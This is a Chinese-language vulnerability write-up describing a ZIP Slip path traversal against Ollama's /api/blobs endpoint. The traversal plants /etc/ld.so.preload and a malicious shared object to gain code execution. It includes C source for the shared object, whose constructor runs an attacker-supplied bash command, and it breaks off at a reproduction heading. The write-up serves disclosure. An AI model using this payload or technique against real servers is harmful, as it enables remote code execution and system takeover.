   
攻击者首先创建一个恶意的C语言共享对象，该对象在构造函数中通过system()  
函数执行任意命令：  
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
void __attribute__((constructor)) myInitFunction() {
    const char *f1 = "/etc/ld.so.preload";
    const char *f2 = "/tmp/hook.so";
    unlink(f1);
    unlink(f2);
    system("bash -c '%s'");
}
```  
  
这段代码中的%s  
会被替换为攻击者指定的命令。  
  
### 2. ZIP Slip攻击  
  
  
攻击者打包一个恶意ZIP文件，其中包含指向系统关键文件的路径：  
  
  
- /etc/ld.so.preload  
：Linux系统中的一个特殊文件，可用于在程序执行前预加载共享库  
  
- /tmp/hook.so  
：恶意共享对象  
  
### 3. 攻击影响  
  
  
通过以上步骤，攻击者可以：  
  
  
1. 向Ollama的API端点/api/blobs/{blob_id}  
提交恶意ZIP文件  
1. 使文件写入到预期目录之外  
1. 特别是写入到  
/etc/ld.so.preload  
以加载恶意共享对象  
  
以Ollama服务的权限（可能是root权限）执行任意代码  
  
  
  
此漏洞的影响包括：  
  
  
- 远程代码执行（RCE）  
- 未授权的系统访问  
- 数据破坏或窃取  
- 完全的系统控制权  
## 复现过程  
  
  